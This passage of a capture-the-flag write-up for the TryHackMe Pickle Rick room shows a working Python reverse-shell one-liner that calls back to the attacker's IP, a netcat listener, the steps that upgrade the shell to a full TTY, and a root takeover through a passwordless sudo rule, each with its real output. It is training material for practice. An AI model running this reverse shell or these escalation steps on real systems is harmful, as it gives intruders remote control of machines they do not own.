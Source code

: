     3rd ingredients: fleeb juice
    ```

---

## Attempt 2 - getting reverse shell

- After watching John's video, I realised that proper way of **pwing a room/box** is by using reverse shell. So, here we go again!

- Using python reverse shell and listening on netcat:

```py
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.7.91",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

- Upgrading shell:

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.36.31] 46354
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-10-36-31:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 1234
root@kali:~/Desktop/CTF/TryHackMe/pickle_rick# stty raw -echo; fg
nc -lvnp 1234

www-data@ip-10-10-36-31:/var/www/html$ export "TERM=xterm"
```

- Gaining root acess and all the ingredients:

```bash
www-data@ip-10-10-36-31:/var/www/html$ ls
Sup3rS3cretPickl3Ingred.txt  clue.txt	 index.html  portal.php
assets			     denied.php  login.php   robots.txt
www-data@ip-10-10-36-31:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt 
mr. meeseek hair

www-data@ip-10-10-36-31:/var/www/html$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-36-31.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-36-31.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL

www-data@ip-10-10-36-31:/var/www/html$ sudo bash
root@ip-10-10-36-31:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)

root@ip-10-10-36-31:/var/www/html# cd
root@ip-10-10-36-31:~# ls
3rd.txt  snap
root@ip-10-10-36-31:~# cat 3rd.txt 
3rd ingredients: fleeb juice

root@ip-10-10-36-31:~# cd /home/
root@ip-10-10-36-31:/home# ls
rick  ubuntu
root@ip-10-10-36-31:/home# cd rick/
```